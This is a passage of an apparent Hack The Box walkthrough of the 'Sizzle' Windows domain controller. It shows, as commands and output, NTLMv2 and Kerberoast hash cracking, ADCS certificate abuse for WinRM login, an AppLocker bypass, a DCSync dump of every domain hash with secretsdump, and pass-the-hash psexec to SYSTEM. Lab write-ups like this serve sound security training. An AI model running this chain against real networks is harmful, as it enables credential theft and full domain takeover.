[SMB] NTLMv2-SSP Hash     : amanda::HTB:b675715c5499593c:FFD2BBFCC28DC7D3CEFF1F0841376996:010100000000000080AC78D583F8D90170E74450E59B13B400000000020008004A004D004E00360001001E00570049004E002D0050005100380053004200320033005000490052004A0004003400570049004E002D0050005100380053004200320033005000490052004A002E004A004D004E0036002E004C004F00430041004C00030014004A004D004E0036002E004C004F00430041004C00050014004A004D004E0036002E004C004F00430041004C000700080080AC78D583F8D90106000400020000000800300030000000000000000100000000200000AADDC6CF9EC13F9A82B5C282A14AA8FBCE7DDBBD58FF57D644C90A4B93B67EBA0A0010000000000000000000000000000000000009001E0063006900660073002F00310030002E00310030002E00310036002E003900000000000000000000000000                        
```

- Let's crack it
```
└─$ hashcat -m 5600 hash /usr/share/wordlists/rockyou.txt 
hashcat (v6.2.6) starting

OpenCL API (OpenCL 3.0 PoCL 4.0+debian  Linux, None+Asserts, RELOC, SPIR, LLVM 15.0.7, SLEEF, DISTRO, POCL_DEBUG) - Platform #1 [The pocl project]
==================================================================================================================================================
* Device #1: cpu-sandybridge-12th Gen Intel(R) Core(TM) i5-12400, 1435/2934 MB (512 MB allocatable), 2MCU

Minimum password length supported by kernel: 0
Maximum password length supported by kernel: 256
...
AMANDA::HTB:b675715c5499593c:ffd2bbfcc28dc7d3ceff1f0841376996:010100000000000080ac78d583f8d90170e74450e59b13b400000000020008004a004d004e00360001001e00570049004e002d0050005100380053004200320033005000490052004a0004003400570049004e002d0050005100380053004200320033005000490052004a002e004a004d004e0036002e004c004f00430041004c00030014004a004d004e0036002e004c004f00430041004c00050014004a004d004e0036002e004c004f00430041004c000700080080ac78d583f8d90106000400020000000800300030000000000000000100000000200000aaddc6cf9ec13f9a82b5c282a14aa8fbce7ddbbd58ff57d644c90a4b93b67eba0a0010000000000000000000000000000000000009001e0063006900660073002f00310030002e00310030002e00310036002e003900000000000000000000000000:Ashare1972
...
```
- No `winrm`
- Let's check `smb`
```
└─$ crackmapexec smb 10.10.10.103 -u amanda -p 'Ashare1972' --shares
SMB         10.10.10.103    445    SIZZLE           [*] Windows 10.0 Build 14393 x64 (name:SIZZLE) (domain:HTB.LOCAL) (signing:True) (SMBv1:False)
SMB         10.10.10.103    445    SIZZLE           [+] HTB.LOCAL\amanda:Ashare1972 
SMB         10.10.10.103    445    SIZZLE           [+] Enumerated shares
SMB         10.10.10.103    445    SIZZLE           Share           Permissions     Remark
SMB         10.10.10.103    445    SIZZLE           -----           -----------     ------
SMB         10.10.10.103    445    SIZZLE           ADMIN$                          Remote Admin
SMB         10.10.10.103    445    SIZZLE           C$                              Default share
SMB         10.10.10.103    445    SIZZLE           CertEnroll      READ            Active Directory Certificate Services share
SMB         10.10.10.103    445    SIZZLE           Department Shares READ            
SMB         10.10.10.103    445    SIZZLE           IPC$            READ            Remote IPC
SMB         10.10.10.103    445    SIZZLE           NETLOGON        READ            Logon server share 
SMB         10.10.10.103    445    SIZZLE           Operations                      
SMB         10.10.10.103    445    SIZZLE           SYSVOL          READ            Logon server share
```

- Now we have access to `CertEnroll`
  - I'll download the files
```
└─$ smbclient //10.10.10.103/CertEnroll -U 'amanda%Ashare1972'
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Sat Oct  7 11:58:35 2023
  ..                                  D        0  Sat Oct  7 11:58:35 2023
  HTB-SIZZLE-CA+.crl                  A      721  Sat Oct  7 11:58:35 2023
  HTB-SIZZLE-CA.crl                   A      909  Sat Oct  7 11:58:35 2023
  nsrev_HTB-SIZZLE-CA.asp             A      322  Mon Jul  2 21:36:05 2018
  sizzle.HTB.LOCAL_HTB-SIZZLE-CA.crt      A      871  Mon Jul  2 21:36:03 2018

                7779839 blocks of size 4096. 3151878 blocks available
smb: \> prompt
smb: \> mget *
getting file \HTB-SIZZLE-CA+.crl of size 721 as HTB-SIZZLE-CA+.crl (0.9 KiloBytes/sec) (average 0.9 KiloBytes/sec)
getting file \HTB-SIZZLE-CA.crl of size 909 as HTB-SIZZLE-CA.crl (1.6 KiloBytes/sec) (average 1.2 KiloBytes/sec)
getting file \nsrev_HTB-SIZZLE-CA.asp of size 322 as nsrev_HTB-SIZZLE-CA.asp (0.7 KiloBytes/sec) (average 1.0 KiloBytes/sec)
getting file \sizzle.HTB.LOCAL_HTB-SIZZLE-CA.crt of size 871 as sizzle.HTB.LOCAL_HTB-SIZZLE-CA.crt (1.0 KiloBytes/sec) (average 1.0 KiloBytes/sec)
smb: \> exot
exot: command not found
smb: \> exit
```
- Let's also gather domain info with `bloodhound`
```
└─$ bloodhound-python -u amanda -p 'Ashare1972' -d htb.local -dc sizzle.HTB.LOCAL  -ns 10.10.10.103 -c all --zip 
INFO: Found AD domain: htb.local
INFO: Getting TGT for user
WARNING: Failed to get Kerberos TGT. Falling back to NTLM authentication. Error: [Errno Connection error (htb.local:88)] [Errno 113] No route to host
INFO: Connecting to LDAP server: sizzle.HTB.LOCAL
INFO: Found 1 domains
INFO: Found 1 domains in the forest
INFO: Found 1 computers
INFO: Connecting to LDAP server: sizzle.HTB.LOCAL
INFO: Found 8 users
INFO: Found 53 groups
INFO: Found 2 gpos
INFO: Found 1 ous
INFO: Found 19 containers
INFO: Found 0 trusts
INFO: Starting computer enumeration with 10 workers
INFO: Querying computer: sizzle.HTB.LOCAL
INFO: Done in 00M 30S
INFO: Compressing output into 20231007121654_bloodhound.zip
```

- If we check `amanda` user privileges, it shows that she's in `Remote Management Users` group


- Since we failed `winrm` authentification, maybe it requires `certificate` for login
  - We saw `CertEnroll` directory and `/certenroll` and `/certsrv` which are part of [ADCS](https://social.technet.microsoft.com/wiki/contents/articles/7734.certificate-enrollment-web-services-in-active-directory-certificate-services.aspx)
  - We can visit `/certsrv` and use `amanda` creds to access web enrollment feature


- I tried to use `User` certificate template, but it failed






- We could create a `csr` and submit it via `advanced certificate request` feature
  - https://10.10.10.103/certsrv/certrqxt.asp
```
└─$ openssl req -newkey rsa:2048 -nodes -keyout amanda.key -out amanda.csr
..+.....+.+...............+..............+.+...........+.+...+..+.......+..+...+...+...+....+..+....+..+.......+..+..........+...........+.......+...+..+.+++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++*..............+...+......+.+......+.....+...+....+..+.+........+.+...+.................+.+............+++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++*..+......+..+.............+......+........+.......+.........+..+.........+...+......+..........+..+...+....+...+..+......+......+.+.................+.+..............+...+...+++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++
.......+.....+....+..............+++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++*.+++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++*........+...+.........+......+...................+.........+.....+......+....+.........+..+.+.....+.......+...+........+....+...+...+..+.........+...+...+.......+...+...+..+...+....+.....+.+.....+......+...+.+.........+...........+.+......+............+.....+.....................+.......+..+...+.........+..........+......+...+.....+.+......+..+..........+........+......................+........+...+.......+............+.....+.+.....+.+........+......+....+...+.....+...+....+........+...+....+......+......+........+++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++
-----
You are about to be asked to enter information that will be incorporated
into your certificate request.
What you are about to enter is what is called a Distinguished Name or a DN.
There are quite a few fields but you can leave some blank
For some fields there will be a default value,
If you enter '.', the field will be left blank.
-----
Country Name (2 letter code) [AU]:
State or Province Name (full name) [Some-State]:
Locality Name (eg, city) []:
Organization Name (eg, company) [Internet Widgits Pty Ltd]:
Organizational Unit Name (eg, section) []:
Common Name (e.g. server FQDN or YOUR name) []:
Email Address []:

Please enter the following 'extra' attributes
to be sent with your certificate request
A challenge password []:
An optional company name []:
```
```
└─$ ls amanda.*
amanda.csr  amanda.key
```
```
└─$ cat amanda.csr               
-----BEGIN CERTIFICATE REQUEST-----
MIICijCCAXICAQAwRTELMAkGA1UEBhMCQVUxEzARBgNVBAgMClNvbWUtU3RhdGUx
ITAfBgNVBAoMGEludGVybmV0IFdpZGdpdHMgUHR5IEx0ZDCCASIwDQYJKoZIhvcN
AQEBBQADggEPADCCAQoCggEBALYZAo96tF+HCNgI4MjYYwI4SGxtWeQGUET4jz4s
akgn3Ds9bdIOJWol4Bbc6nSbX8KzOT5pxBJonzkF62M933dJNXJslNZtB0FUbuhC
AXiG2T1JtKw6Rc6qXaCspwcbiHxd6dsBOT+dj6TLuXoULExjJFAEQiii16qE1aeE
2LhrP6are383W6//VQzqGIBrHDHzwHYD18vgXk1QGaJm6dQn2g1VWu3cZ3wSBBjC
vJApK3iz51thfizzgQwQKr0oc6AGfYpzHG8qUrphG5DqXXHel3+WJmtQ3+4bq3Eh
excOvG7hTGq0tRvyO/bK2hWNChyOBypKlubq1Gdk2BclRJcCAwEAAaAAMA0GCSqG
SIb3DQEBCwUAA4IBAQBSWmGAIrVDMgU4S/mZnDK0DU06/2vMz4NbhQgBlmRZ5VaK
LOmdhILontT+PibX5AtSXRhN4bGRp1ZSH9Fs9Wf3QToT6y0QJEVDlHEK3eq4CF5N
/7Kq7i8DyhI+DzPAXZdRVCev9Hy15TI3FnOA+qsCUZx6XctkCi5vVwAbt5N/T78e
cciP1QuNiWPLKUhx/HdxT3tx4h4YQAjVI7Foe4u1wWpfQRc8+VTdPq3LkybiIq+X
h7R17BeDE/4Z2pnk4OGPgeM+Hba9CV5XEWuPhf2ueAPg9rRLBoQBHHyw7ikKbCv2
BXNcocC9YZ+YuzxFlndC5TFn3dkM8+8W48t6lAKF
-----END CERTIFICATE REQUEST-----
```
- Now submit the request and download it


- Let's connect using `evil-winrm`
```
└─$ evil-winrm -S -c amanda.crt -k amanda.key -i 10.10.10.103
                                        
Evil-WinRM shell v3.5
                                        
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Warning: SSL enabled
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\amanda\Documents> 
```
## User
- We have another user `mrlky` who has access to box
  - If we check `bloodhound`, `mrlky` is also in `Remote Management User` and has `SPN` set
```
*Evil-WinRM* PS C:\Users>ls 


    Directory: C:\Users


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
d-----         7/2/2018   4:29 PM                .NET v4.5
d-----         7/2/2018   4:29 PM                .NET v4.5 Classic
d-----        8/19/2018   3:04 PM                administrator
d-----        9/30/2018   5:05 PM                amanda
d-----         7/2/2018  12:39 PM                mrlky
d-----        7/11/2018   5:59 PM                mrlky.HTB
d-r---       11/20/2016   8:24 PM                Public
d-----         7/3/2018  10:32 PM                WSEnrollmentPolicyServer
d-----         7/3/2018  10:49 PM                WSEnrollmentServer
```


- If we check `netstat`, port `88` is open
  - Maybe there's a firewall that blocks
  - That's why we didn't have results using `impacket-GetUserSPNs` 
```
*Evil-WinRM* PS C:\Users> netstat -ano

Active Connections

  Proto  Local Address          Foreign Address        State           PID
  TCP    0.0.0.0:21             0.0.0.0:0              LISTENING       2116
  TCP    0.0.0.0:80             0.0.0.0:0              LISTENING       4
  TCP    0.0.0.0:88             0.0.0.0:0              LISTENING       596
  TCP    0.0.0.0:135            0.0.0.0:0              LISTENING       824
  TCP    0.0.0.0:389            0.0.0.0:0              LISTENING       596
  TCP    0.0.0.0:443            0.0.0.0:0              LISTENING       4
  TCP    0.0.0.0:445            0.0.0.0:0              LISTENING       4
  TCP    0.0.0.0:464            0.0.0.0:0              LISTENING       596
  TCP    0.0.0.0:593            0.0.0.0:0              LISTENING       824
  TCP    0.0.0.0:636            0.0.0.0:0              LISTENING       596
  TCP    0.0.0.0:3268           0.0.0.0:0              LISTENING       596
  TCP    0.0.0.0:3269           0.0.0.0:0              LISTENING       596
  TCP    0.0.0.0:5985           0.0.0.0:0              LISTENING       4
  TCP    0.0.0.0:5986           0.0.0.0:0              LISTENING       4
  TCP    0.0.0.0:9389           0.0.0.0:0              LISTENING       2056
  TCP    0.0.0.0:47001          0.0.0.0:0              LISTENING       4
  TCP    0.0.0.0:49664          0.0.0.0:0              LISTENING       460
  TCP    0.0.0.0:49665          0.0.0.0:0              LISTENING       304
  TCP    0.0.0.0:49668          0.0.0.0:0              LISTENING       596
  TCP    0.0.0.0:49670          0.0.0.0:0              LISTENING       1152
  TCP    0.0.0.0:49677          0.0.0.0:0              LISTENING       1924
  TCP    0.0.0.0:49689          0.0.0.0:0              LISTENING       596
  TCP    0.0.0.0:49690          0.0.0.0:0              LISTENING       596
  TCP    0.0.0.0:49693          0.0.0.0:0              LISTENING       1188
  TCP    0.0.0.0:49696          0.0.0.0:0              LISTENING       588
  TCP    0.0.0.0:49701          0.0.0.0:0              LISTENING       2076
  TCP    0.0.0.0:49710          0.0.0.0:0              LISTENING       2096
  TCP    0.0.0.0:49716          0.0.0.0:0              LISTENING       2104
  TCP    10.10.10.103:53        0.0.0.0:0              LISTENING       2096
  TCP    10.10.10.103:139       0.0.0.0:0              LISTENING       4
  TCP    10.10.10.103:5986      10.10.16.9:36460       ESTABLISHED     4
  TCP    127.0.0.1:53           0.0.0.0:0              LISTENING       2096

```

- We can upload `Rubeus` and try to perform `kerberoast`
  - But I receive an error when trying to run it
  - Could be `Applocker`
  - Let's place it `C:\windows\temp`
    - https://github.com/api0cradle/UltimateAppLockerByPassList/blob/master/Generic-AppLockerbypasses.md
```
*Evil-WinRM* PS C:\Users\amanda> .\rb.exe kerberoast /creduser:htb.local\amanda /credpassword:Ashare1972
Program 'rb.exe' failed to run: This program is blocked by group policy. For more information, contact your system administratorAt line:1 char:1
+ .\rb.exe kerberoast /creduser:htb.local\amanda /credpassword:Ashare19 ...
+ ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~.
At line:1 char:1
+ .\rb.exe kerberoast /creduser:htb.local\amanda /credpassword:Ashare19 ...
+ ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
    + CategoryInfo          : ResourceUnavailable: (:) [], ApplicationFailedException
    + FullyQualifiedErrorId : NativeCommandFailed
```

- And we successfully get the hash
  - We could upload `chisel` configure port forwarding to do the same thing
```
*Evil-WinRM* PS C:\windows\temp> c:\windows\temp\rb.exe kerberoast /creduser:htb.local\amanda /credpassword:Ashare1972

   ______        _
  (_____ \      | |
   _____) )_   _| |__  _____ _   _  ___
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v2.2.0


[*] Action: Kerberoasting

[*] NOTICE: AES hashes will be returned for AES-enabled accounts.
[*]         Use /ticket:X or /tgtdeleg to force RC4_HMAC for these accounts.

[*] Target Domain          : HTB.LOCAL
[*] Searching path 'LDAP://sizzle.HTB.LOCAL/DC=HTB,DC=LOCAL' for '(&(samAccountType=805306368)(servicePrincipalName=*)(!samAccountName=krbtgt)(!(UserAccountControl:1.2.840.113556.1.4.803:=2)))'

[*] Total kerberoastable users : 1


[*] SamAccountName         : mrlky
[*] DistinguishedName      : CN=mrlky,CN=Users,DC=HTB,DC=LOCAL
[*] ServicePrincipalName   : http/sizzle
[*] PwdLastSet             : 7/10/2018 2:08:09 PM
[*] Supported ETypes       : RC4_HMAC_DEFAULT
[*] Hash                   : $krb5tgs$23$*mrlky$HTB.LOCAL$http/sizzle@HTB.LOCAL*$78D62920398D6583B8F4E22D761D
                             2170$604D4ECE97E9AC1730811278F5309A2373B5E92DA70BC99B2FDD46131FAF946249F3F519135
                             3D872662DE4599089BCB5D230683CE1B3F2F697D652FF038E045D622F3E38CB1EC8D15B5911DC2DD
                             BE2F938FE70B52E8F13F144CF7714EA04460764A560FD99CE60140989F1D0974E36437B5EA6D0173
                             F718195F834F263A6E862AD8B38A67282B59912E475602D79D5096A1D252E8FA2062559DF6DEBEF9
                             8D4C4894DCAB40BA0DEB7A7666678D024A251CBF3BD75580B2A631C67F24897BDBEC9BEC92DDE9E3
                             45440DE9BF3EFC08CB5CCD341A032B86211408B40685BC1CFE32EC80110442AC948D9D6985141581
                             3C62B55549AAD50ED670423EA4BB6D8D870E88824E9254D5C0F854AC63C798399D70167607762AF0
                             93AB6934099ADA65D524475ED1A061C46DDA0C034DE69053CE994763F785E2CF998415B44E096D6E
                             3571CD052EC14393FD764D358CAF1B0FB2DB4E02055F98DAB1C3E1B479FFDB056B9EB51FFB031CAB
                             DE6B9F57065D2234546902F48872EC48D55165FC2E41A8F683158F0486E1BA6915E6EBA5DAD77C73
                             F97CFAFF87E5BFE5BED5618A8BECD1C15E978634FA02F4F1F3C96B43F797000F0D2DAC48D7E3CFC8
                             FAC3CFBE21246FB27C9328AC31037896D08300A6D28DE65F46620CE5DAFEC93379E5B71EBF39A8EA
                             7EE55C91418DE2201317F0D83B3BA7B775D02191B448DF2F1FFA73EA611A94E4E07563E2CA44F46D
                             52BCCD3ABDCBC65D265CCFAA6188E6902C5FB8F2D336678C96B29128E89047386AC77D3A979B0413
                             31858C3BF57847F4008EA76EF6251E12B6A039C6193CC6100FB635EEB10DD85E48E06784EE99D273
                             C1226A41A23D35F2A3BC78AC20687592033DA8343654AC5AC88A131765198B00FF7CCBEF27416AC5
                             DE5CA321634B1F343BA1ECC48F52A018E4FD8BFE7E91C0BF9329A0193EAB4CF479802AF3585D8FED
                             8740761351B3AFE3BC1DDAD3B78E4C15338B78ABAB0BD79DE5FB3C99A13774D1F8B97726EBB095C1
                             FAB1BFB1C5CD69D30E2C8B0BD74674AC322B700BC73D7227D7E0067797D487B82F68CD27310D9431
                             22E213101A88FCD6BA4AE69A134C3AA10715A97F6B0AB44E391061472A7712F7AAE05D2EAAD42D8A
                             C3D4CB908F6D454FAB380C2509992B9897BF380BF3383C76D09D5200FF26F672D163400FC58286F7
                             81EEB425C0400B11A85B28B0E0630A0C24A567CABDDA9363A4A00C7474D4F0FBB68EA9138D98954F
                             E76C284322D0CAEF5E946D8731AA3EDEDD242ADF01F0CAD9AF352510EE7564161DD78C18742DF365
                             5FA89964D8385925210441B31CC64D36D2E52DDF0B1BC8937DA77157821B9447271D0D25591CDAB6
                             6DD9193EE2F31E18F

```

- Let's crack it
```
└─$ hashcat -m 13100 hash /usr/share/wordlists/rockyou.txt
hashcat (v6.2.6) starting

OpenCL API (OpenCL 3.0 PoCL 4.0+debian  Linux, None+Asserts, RELOC, SPIR, LLVM 15.0.7, SLEEF, DISTRO, POCL_DEBUG) - Platform #1 [The pocl project]
==================================================================================================================================================
* Device #1: cpu-sandybridge-12th Gen Intel(R) Core(TM) i5-12400, 1435/2934 MB (512 MB allocatable), 2MCU
...
$krb5tgs$23$*mrlky$HTB.LOCAL$http/sizzle@HTB.LOCAL*$78d62920398d6583b8f4e22d761d2170$604d4ece97e9ac1730811278f5309a2373b5e92da70bc99b2fdd46131faf946249f3f5191353d872662de4599089bcb5d230683ce1b3f2f697d652ff038e045d622f3e38cb1ec8d15b5911dc2ddbe2f938fe70b52e8f13f144cf7714ea04460764a560fd99ce60140989f1d0974e36437b5ea6d0173f718195f834f263a6e862ad8b38a67282b59912e475602d79d5096a1d252e8fa2062559df6debef98d4c4894dcab40ba0deb7a7666678d024a251cbf3bd75580b2a631c67f24897bdbec9bec92dde9e345440de9bf3efc08cb5ccd341a032b86211408b40685bc1cfe32ec80110442ac948d9d69851415813c62b55549aad50ed670423ea4bb6d8d870e88824e9254d5c0f854ac63c798399d70167607762af093ab6934099ada65d524475ed1a061c46dda0c034de69053ce994763f785e2cf998415b44e096d6e3571cd052ec14393fd764d358caf1b0fb2db4e02055f98dab1c3e1b479ffdb056b9eb51ffb031cabde6b9f57065d2234546902f48872ec48d55165fc2e41a8f683158f0486e1ba6915e6eba5dad77c73f97cfaff87e5bfe5bed5618a8becd1c15e978634fa02f4f1f3c96b43f797000f0d2dac48d7e3cfc8fac3cfbe21246fb27c9328ac31037896d08300a6d28de65f46620ce5dafec93379e5b71ebf39a8ea7ee55c91418de2201317f0d83b3ba7b775d02191b448df2f1ffa73ea611a94e4e07563e2ca44f46d52bccd3abdcbc65d265ccfaa6188e6902c5fb8f2d336678c96b29128e89047386ac77d3a979b041331858c3bf57847f4008ea76ef6251e12b6a039c6193cc6100fb635eeb10dd85e48e06784ee99d273c1226a41a23d35f2a3bc78ac20687592033da8343654ac5ac88a131765198b00ff7ccbef27416ac5de5ca321634b1f343ba1ecc48f52a018e4fd8bfe7e91c0bf9329a0193eab4cf479802af3585d8fed8740761351b3afe3bc1ddad3b78e4c15338b78abab0bd79de5fb3c99a13774d1f8b97726ebb095c1fab1bfb1c5cd69d30e2c8b0bd74674ac322b700bc73d7227d7e0067797d487b82f68cd27310d943122e213101a88fcd6ba4ae69a134c3aa10715a97f6b0ab44e391061472a7712f7aae05d2eaad42d8ac3d4cb908f6d454fab380c2509992b9897bf380bf3383c76d09d5200ff26f672d163400fc58286f781eeb425c0400b11a85b28b0e0630a0c24a567cabdda9363a4a00c7474d4f0fbb68ea9138d98954fe76c284322d0caef5e946d8731aa3ededd242adf01f0cad9af352510ee7564161dd78c18742df3655fa89964d8385925210441b31cc64d36d2e52ddf0b1bc8937da77157821b9447271d0d25591cdab66dd9193ee2f31e18f:Football#7
...
```

- We have to perform the same steps to request the certificate for `mrlky`
  - Generate cert via `openssl req -newkey rsa:2048 -nodes -keyout mrlky.key -out mrlky.csr` and submit it to https://10.10.10.103/certsrv/certfnsh.asp by using `mrlky:Football#7` creds

```
└─$ evil-winrm -S -c mrlky.crt -k mrlky.key -i 10.10.10.103 
                                        
Evil-WinRM shell v3.5
                                        
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Warning: SSL enabled
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\mrlky.HTB\Documents>
```
## Root
- If we check `bloodhound`, `mrlky` has `dcsync` permissions


- Let's dump using `impacket-secretsdump`
```
└─$ impacket-secretsdump htb.local/mrlky:'Football#7'@10.10.10.103                                
Impacket v0.11.0 - Copyright 2023 Fortra

[-] RemoteOperations failed: DCERPC Runtime Error: code: 0x5 - rpc_s_access_denied 
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:aad3b435b51404eeaad3b435b51404ee:f6b7160bfc91823792e0ac3a162c9267:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:296ec447eee58283143efbd5d39408c8:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
amanda:1104:aad3b435b51404eeaad3b435b51404ee:7d0516ea4b6ed084f3fdf71c47d9beb3:::
mrlky:1603:aad3b435b51404eeaad3b435b51404ee:bceef4f6fe9c026d1d8dec8dce48adef:::
sizzler:1604:aad3b435b51404eeaad3b435b51404ee:d79f820afad0cbc828d79e16a6f890de:::
SIZZLE$:1001:aad3b435b51404eeaad3b435b51404ee:08d20a47c6938996a375f6fb51ddceb5:::
[*] Kerberos keys grabbed
Administrator:aes256-cts-hmac-sha1-96:e562d64208c7df80b496af280603773ea7d7eeb93ef715392a8258214933275d
Administrator:aes128-cts-hmac-sha1-96:45b1a7ed336bafe1f1e0c1ab666336b3
Administrator:des-cbc-md5:ad7afb706715e964
krbtgt:aes256-cts-hmac-sha1-96:0fcb9a54f68453be5dd01fe555cace13e99def7699b85deda866a71a74e9391e
krbtgt:aes128-cts-hmac-sha1-96:668b69e6bb7f76fa1bcd3a638e93e699
krbtgt:des-cbc-md5:866db35eb9ec5173
amanda:aes256-cts-hmac-sha1-96:60ef71f6446370bab3a52634c3708ed8a0af424fdcb045f3f5fbde5ff05221eb
amanda:aes128-cts-hmac-sha1-96:48d91184cecdc906ca7a07ccbe42e061
amanda:des-cbc-md5:70ba677a4c1a2adf
mrlky:aes256-cts-hmac-sha1-96:b42493c2e8ef350d257e68cc93a155643330c6b5e46a931315c2e23984b11155
mrlky:aes128-cts-hmac-sha1-96:3daab3d6ea94d236b44083309f4f3db0
mrlky:des-cbc-md5:02f1a4da0432f7f7
sizzler:aes256-cts-hmac-sha1-96:85b437e31c055786104b514f98fdf2a520569174cbfc7ba2c895b0f05a7ec81d
sizzler:aes128-cts-hmac-sha1-96:e31015d07e48c21bbd72955641423955
sizzler:des-cbc-md5:5d51d30e68d092d9
SIZZLE$:aes256-cts-hmac-sha1-96:e4cc1e3b5b630be6ea08381dcc83a4e9484f495238c7ceb9d2c6f64b66bc2384
SIZZLE$:aes128-cts-hmac-sha1-96:3ef35b2f32ff548020a92f74626629e6
SIZZLE$:des-cbc-md5:4631c79d070b1329
[*] Cleaning up... 

```

- Let's connect as `Administrator`
```
└─$ impacket-psexec Administrator@10.10.10.103 -hashes 'aad3b435b51404eeaad3b435b51404ee:f6b7160bfc91823792e0ac3a162c9267'
Impacket v0.11.0 - Copyright 2023 Fortra

[*] Requesting shares on 10.10.10.103.....
[*] Found writable share ADMIN$
[*] Uploading file HZNuLkEs.exe
[*] Opening SVCManager on 10.10.10.103.....
[*] Creating service YBED on 10.10.10.103.....
[*] Starting service YBED.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.

C:\Windows\system32> whoami
nt authority\system

C:\Windows\system32> 

```

- There are 2 [unintended paths](https://0xdf.gitlab.io/2019/06/01/htb-sizzle.html#beyond-root---unintended-paths)